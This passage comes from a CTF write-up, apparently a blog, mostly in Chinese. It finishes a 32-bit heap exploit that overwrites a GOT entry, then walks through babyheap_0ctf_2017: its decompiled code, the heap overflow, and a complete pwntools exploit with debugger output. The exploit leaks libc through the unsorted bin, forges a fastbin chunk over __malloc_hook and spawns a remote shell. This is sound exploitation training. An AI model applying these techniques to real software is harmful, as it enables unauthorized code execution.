# so we need fake anther chunk to pass the check,
# and each chunk's size is 0x40,
# so we need input anther 0x20 charactes(0x38-(0x0804a2c0 - 0x0804a2a8)) to padding to next fake_chunk,


# pwndbg> x/16w 0x8fb9410
# 0x8fb9410:  0x0000000a  0x00000041  0x00000042  0x00000000
# 0x8fb9420:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x8fb9430:  0x41414100  0x41414141  0x41414141  0x41414141
# 0x8fb9440:  0x41414141  0x41414141  0x41414141  0x0804a2a8
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a2c0  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x00000100
# pwndbg> x/16w 0x0804a2e0
# 0x804a2e0:  0x00000041  0x00000100  0x61616161  0x61616161
# 0x804a2f0:  0x61616161  0x00000000  0x62626262  0x62626262
# 0x804a300:  0x62626262  0x62626262  0x62626262  0x62626262
# 0x804a310:  0x62626262  0x62626262  0x62626262  0x62626262
# pwndbg>


order() # free the fake chunk
# dbg()

# ...
# 0x843b350           0xa                 0x40                 Used                None              None
# 0x843b390           0xa                 0x40                 Used                None              None
# 0x843b3d0           0xa                 0x40                 Used                None              None
# 0x843b410           0xa                 0x40                 Freed                0x0              None
# pwndbg> fastbin
# fastbins
# 0x10: 0x0
# 0x18: 0x0
# 0x20: 0x0
# 0x28: 0x0
# 0x30: 0x0
# 0x38: 0x0
# 0x40: 0x804a2a0 -> 0x843b410 <- 0x0

# now we can malloc the chunk which we created
# add a rifle which rifle's name potin to a got addr,
# and edit message to rewirte the addr we jsut add to name,
# then getshell
# it's not difficult to find that after we input something,
# the program will call sub_80485EC(our_input),
# and in this function,it call strlen(our_input),
# so we can rewrite the strlen@got to system_addr,
# and transfer the argue '/bin/sh' to fake strlen and get shell
add('S',p32(elf.got['strlen']))
# dbg()
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a250  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00005300  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x00000100
# pwndbg> x/s 0x0804a250
# 0x804a250 <strlen@got.plt>: "@\364\337\367@\225\331\367\300\324\335", <incomplete sequence \367>
# pwndbg>

message(p32(system_addr)+ ';/bin/sh\x00')
# the arguement of system contains ';',means system execute it by to parts,
# in other words, it means system(p32(system_addr);"/bin/sh") = system(p32(system_addr));system("/bin/sh");
# dbg()
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a250  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00005300  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x00000100
# pwndbg> x/16w 0x0804a250
# 0x804a250 <strlen@got.plt>: 0xf7d6dda0  0x69622f3b  0x68732f6e  0x00000a00
# 0x804a260:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a270:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a280 <stdin>:  0xf7ee55a0  0x00000000  0x0804a2a8  0x00000000
# pwndbg>

itr()
```

## babyheap_0ctf_2017

64位程序，保护全开

### 基本功能-babyheap

实际上是一个堆分配器，功能如下：

```c++
 puts("1. Allocate");
  puts("2. Fill");
  puts("3. Free");
  puts("4. Dump");
  puts("5. Exit");
```

- Allocate

```c++
printf("Size: ");
      v2 = get_num();
      if ( v2 > 0 )
      {
        if ( v2 > 4096 )
          v2 = 4096;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;         // inuse
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;    // size
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;   // ptr
        printf("Allocate Index %d\n", (unsigned int)i);
      }
```

能申请的最大chunk为4096（0x1000），每个chunk分为三部分：inuse、size、ptr，所以程序结构体如下：

```s
00000000 chunk           struc ; (sizeof=0x11, mappedto_6)
00000000 inuse           db ?
00000001 size            dq ?
00000009 ptr             dq ?
00000011 chunk           ends
```

- Fill
  
```c++
printf("Index: ");
  result = get_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = *(unsigned int *)(24LL * (signed int)result + a1);// inuse
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");                         // size大小自定，可造成任意长度堆溢出
      result = get_num();
      v3 = result;
      if ( (signed int)result > 0 )
      {
        printf("Content: ");
        result = get_input(*(_QWORD *)(24LL * v2 + a1 + 16), v3);
      }
    }
```

fill的作用是填充内容，可以发现，这里的长度是自定义的，而不是使用size，而且没有设置字符串结尾，所以存在堆溢出的漏洞

- Free

```c++
printf("Index: ");
  result = get_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = *(unsigned int *)(24LL * (signed int)result + a1);
    if ( (_DWORD)result == 1 )
    {
      *(_DWORD *)(24LL * v2 + a1) = 0;
      *(_QWORD *)(24LL * v2 + a1 + 8) = 0LL;
      free(*(void **)(24LL * v2 + a1 + 16));
      result = 24LL * v2 + a1;
      *(_QWORD *)(result + 16) = 0LL;
    }
  }
```

释放对应的块

- Dump

```c++
 printf("Index: ");
  result = get_num();
  v2 = result;
  if ( result >= 0 && result <= 15 )
  {
    result = *(_DWORD *)(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      sub_130F(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));
      result = puts(byte_14F1);
    }
  }
```

输出对应块的内容

### 利用-babyheap

可以利用的是任意长度的堆溢出，程序保护全开，所以需要先泄露，才能再控制程序流程。

- unsorted bin 泄露libc基址
- fastbin attack 将chunk分配到malloc_hook附近，进而利用Fill修改malloc_hook内容为one_gadget

#### 泄露libc-babyheap

希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能是 fastbin chunk，也不能和 top chunk 相邻。前者会被添加到 fastbin 中，后者在不是 fastbin 的情况下，会被合并到 top chunk 中。

所以构造5个chunk（i0-i4):

- i0:用作填充其后的chunk，使其bk指针指向i4（small bin）
- i1:用作释放，之后释放i2时，i2的bk指针会指向i1，这样我们就可以通过i0修改i2的bk指针低字节，使其指向i4
- i2：bk被修改，后续其会指向i4,无论i4释放与否
- i3:用于修改i4,绕过检测等
- i4:用于泄露libc基址

接着释放 i1,i2，然后编辑i0,使其指向i4（堆始终是 4KB 对齐的，所以 idx 4 的起始地址的第一个字节必然是 0x80）。

修改成功之后再次申请两个chunk时，必然就会申请到i4处，前提是i4能够通过检测（通过i3溢出到i4修改size绕过检测）

之后，在释放i4之前，为了i4释放之后会进入unsorted bin，需要再申请一个chunk（i5),防止释放的i4与top chunk合并。此时再释放i4,i4就进入到unsorted bin了，并且i2也指向i4,所以直接打印i2的内容，就可以得到 main_arena的地址，进而计算libc基址

> main_arena 是位于libc中bss段的一个全局变量，所以偏移固定，可以借此来计算libc的基址



#### 分配fake_chunk来获取shell

malloc hook 附近的 可用作fake_chunk的size位为 0x7f，所以数据区域为 0x60

```s
pwndbg> x/4gx (long long)(&main_arena)-0x40+0xd
0x7f2bb9726aed <_IO_wide_data_0+301>: 0x2bb9725260000000  0x000000000000007f
0x7f2bb9726afd:   0x2bb93e7e20000000  0x2bb93e7a0000007f
```

此时我们再申请（0x60）时，对应 fastbin 链表中没有相应大小 chunk，所以根据堆分配器规则，它会依次处理 unsorted bin 中的 chunk，将其放入到对应的 bin 中，之后会再次尝试分配 chunk，因为之前释放的 chunk 比当前申请的 chunk 大，所以会从其前面分割出来一块。所以 idx2 仍然指向该位置，然后就可以通过 i2 来修改bk指针指向fake_chunk,接着再次申请两个大小为0x60的chunk(i4、i6),此时i6便指向fake_chunk

调用Fill修改i6的内容，使 malloc_hook指向one_gadget，再次请求分配时，就可以拿到shell（这里的 onegadget 地址也可能需要尝试多次）

#### exp-babyheap

```python
from pwn import *
context.arch='amd64'
# context.log_level='DEBUG'

# p = process('./babyheap')
p = remote('node3.buuoj.cn',29471)
elf = ELF('./babyheap',checksec=False)

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def allocate(size):
    ru("Command: ")
    sl('1')
    ru('Size:')
    sl(str(size))

def fill(index,size,content):
    ru("Command: ")
    sl('2')
    ru("Index: ")
    sl(str(index))
    ru("Size: ")
    sl(size)
    ru("Content: ")
    sl(content)

def free(index):
    ru("Command: ")
    sl('3')
    ru("Index: ")
    sl(str(index))

def dump(index):
    ru("Command: ")
    sl('4')
    ru("Index: ")
    sl(str(index))
    ru("Content: \n")
    # puts,which will put '\n'
    data = ru('\n')
    return data

def dbg():
    gdb.attach(p)
    pause()

# allocate 5 chunks include one small bin and four fast bins,
# one for padding next chunk's bk point to small bin,
# and one for it's bk point to small bin,
# and one for make pre fast bin'bk point to small bin,
# and one for padding the small bin to pass check,
# the small bin for leak


allocate(0x10) # i0,0x00
allocate(0x10) # i1,0x20
allocate(0x10) # i2,0x40
allocate(0x10) # i3,0x60
# fast bin size is 0x20,so we can calculate the offset each chunk
allocate(0x80) # i4,0x80
# dbg()
# pwndbg> x/24g 0x55e463353000
# 0x55e463353000:   0x0000000000000000  0x0000000000000021 <-- i0
# 0x55e463353010:   0x0000000000000000  0x0000000000000000
# 0x55e463353020:   0x0000000000000000  0x0000000000000021 <-- i1
# 0x55e463353030:   0x0000000000000000  0x0000000000000000
# 0x55e463353040:   0x0000000000000000  0x0000000000000021 <-- i2
# 0x55e463353050:   0x0000000000000000  0x0000000000000000
# 0x55e463353060:   0x0000000000000000  0x0000000000000021 <-- i3
# 0x55e463353070:   0x0000000000000000  0x0000000000000000
# 0x55e463353080:   0x0000000000000000  0x0000000000000091 <-- i4

free(1)
free(2)
# dbg()
# after free 2 fast bin,there is a fast bin list
# pwndbg> fast
# fastbins
# 0x20: 0x560eb6540040 -> 0x560eb6540020 <- 0x0
# 0x30: 0x0
# 0x40: 0x0
# 0x50: 0x0
# 0x60: 0x0
# 0x70: 0x0
# 0x80: 0x0
# pwndbg> x/24g 0x560eb6540000
# 0x560eb6540000:   0x0000000000000000  0x0000000000000021 <-- i0
# 0x560eb6540010:   0x0000000000000000  0x0000000000000000
# 0x560eb6540020:   0x0000000000000000  0x0000000000000021 <-- i1
# 0x560eb6540030:   0x0000000000000000  0x0000000000000000
# 0x560eb6540040:   0x0000000000000000  0x0000000000000021 <-- i2
# 0x560eb6540050:   0x0000560eb6540020  0x0000000000000000
# 0x560eb6540060:   0x0000000000000000  0x0000000000000021 <-- i3
# 0x560eb6540070:   0x0000000000000000  0x0000000000000000
# 0x560eb6540080:   0x0000000000000000  0x0000000000000091 <-- i4

# now we eidt i0 to make i1's bk point to small bin
payload = 'a'*0x10 + p64(0) + p64(0x21) # padding i1
payload += 'b'*0x10 + p64(0) + p64(0x21) + p8(0x80)
fill(0,len(payload),payload)
# dbg()
# now i2'bk point to small bin,
# and we allocate again we can get the small bin
# pwndbg> x/24g 0x55a1fa987000
# 0x55a1fa987000:   0x0000000000000000  0x0000000000000021 <-- i0
# 0x55a1fa987010:   0x6161616161616161  0x6161616161616161
# 0x55a1fa987020:   0x0000000000000000  0x0000000000000021 <-- i1
# 0x55a1fa987030:   0x6262626262626262  0x6262626262626262
# 0x55a1fa987040:   0x0000000000000000  0x0000000000000021 <-- i2
# 0x55a1fa987050:   0x000055a1fa987080  0x0000000000000000
# 0x55a1fa987060:   0x0000000000000000  0x0000000000000021 <-- i3
# 0x55a1fa987070:   0x0000000000000000  0x0000000000000000
# 0x55a1fa987080:   0x0000000000000000  0x0000000000000091 <-- i4

# pwndbg> fast
# fastbins
# 0x20: 0x55c37438a040 -> 0x55c37438a080 <- 0x0
# 0x30: 0x0
# 0x40: 0x0
# 0x50: 0x0
# 0x60: 0x0
# 0x70: 0x0
# 0x80: 0x0

# edit i3 to prepare for allcaote i4
payload = p64(0)*3 + p64(0x21)
fill(3,len(payload),payload)
allocate(0x10) # allocate the 0x55c37438a040 which i1 point to
allocate(0x10) # get i4(small bin) which i2 point to
# dbg()
payload = p64(0)*3 + p64(0x91)
fill(3,len(payload),payload)
allocate(0x80) # i5,to avoid the small bin which we will free later to combine with top chunk
free(4)
# the i4 was allcoate at first,now we free it
# we allocate a fastbin(i2) still point to here(0x564f38404080)
# so while we dump(2), it will dump i4's contnet actually,
# and meanwhile it's contains a addr which near the main_arena
# dbg()
# pwndbg> x/32g 0x5614b339c020
# 0x5614b339c020:   0x0000000000000000  0x0000000000000021 <--i1
# 0x5614b339c030:   0x6262626262626262  0x6262626262626262
# 0x5614b339c040:   0x0000000000000000  0x0000000000000021
# 0x5614b339c050:   0x0000000000000000  0x0000000000000000
# 0x5614b339c060:   0x0000000000000000  0x0000000000000021 <--i3
# 0x5614b339c070:   0x0000000000000000  0x0000000000000000
# 0x5614b339c080:   0x0000000000000000  0x0000000000000091 <-- i4,i2
# 0x5614b339c090:   0x00007f3579d12b78  0x00007f3579d12b78
# ......
# pwndbg> unsorted
# unsortedbin
# all: 0x5614b339c080 -> 0x7f3579d12b78 (main_arena+88) <- 0x5614b339c080
# pwndbg>

# now we can dump it to leak libc_base
addr = u64(dump(2)[:8].ljust(8,'\x00'))
leak('addr',addr)
main_arena = u64(dump(2)[:8].ljust(8,'\x00')) - 0x58
leak("main_arena",main_arena)
libc_base = addr - 0x88 - 0x3c4af0
leak("libc_base",libc_base)

# now we get libc address

# one_gadget = 0x45216 # execve("/bin/sh", rsp+0x30, environ
one_gadget = 0x4526a # execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# one_gadget = 0xf02a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# one_gadget = 0xf1147 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL


allocate(0x60)
free(4)
# dbg()
# pwndbg> x/4gx (long long)(&main_arena)-0x40+0xd
# 0x7f2bb9726aed <_IO_wide_data_0+301>: 0x2bb9725260000000  0x000000000000007f
# 0x7f2bb9726afd:   0x2bb93e7e20000000  0x2bb93e7a0000007f

payload = p64(main_arena - 0x40 + 0xd)
fill(2,len(payload),payload)
# dbg()
allocate(0x60) # i4
# now i4 we just freed was allocated to new i4
allocate(0x60) # i6
# when we continue to allcoate,we can get the fake chunk which point to 0x7f16a99d7b05

# fill(6,5,'A'*5)
# dbg()
# pwndbg> x/16g 0x7f146555eb20 -0x40
# 0x7f146555eae0 <_IO_wide_data_0+288>: 0x0000000000000000  0x0000000000000000
# 0x7f146555eaf0 <_IO_wide_data_0+304>: 0x00007f146555d260  0x4141410000000000
# 0x7f146555eb00 <__memalign_hook>: 0x00007f1465214141  0x00007f146521fa00
# 0x7f146555eb10 <__malloc_hook>:   0x0000000000000000  0x0000000000000000
# 0x7f146555eb20 <main_arena>:  0x0000000000000000  0x0000000000000000
# 0x7f146555eb30 <main_arena+16>:   0x0000000000000000  0x0000000000000000
# 0x7f146555eb40 <main_arena+32>:   0x0000000000000000  0x0000000000000000
# 0x7f146555eb50 <main_arena+48>:   0x146521fe20000000  0x0000000000000000

# now we can edit i6,and rewrite __malloc_hook to our one_gadget to get shell
payload = '\x00'*3 + p64(0)*2 + p64(libc_base+one_gadget)
fill(6,len(payload),payload)
# dbg()
# pwndbg> x/16g 0x7f3f2b9dcb00
# 0x7f3f2b9dcb00 <__memalign_hook>: 0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb10 <__malloc_hook>:   0x00007f3f2b65d216  0x0000000000000000 <--malloc_hook was point to one_gadget
# 0x7f3f2b9dcb20 <main_arena>:  0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb30 <main_arena+16>:   0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb40 <main_arena+32>:   0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb50 <main_arena+48>:   0x3f2b69de20000000  0x0000000000000000
# 0x7f3f2b9dcb60 <main_arena+64>:   0x0000000000000000  0x0000000000000000
# dbg()
# we need to try each one_gadget, one of them may didn't workrd

allocate(0x100)
itr()
```
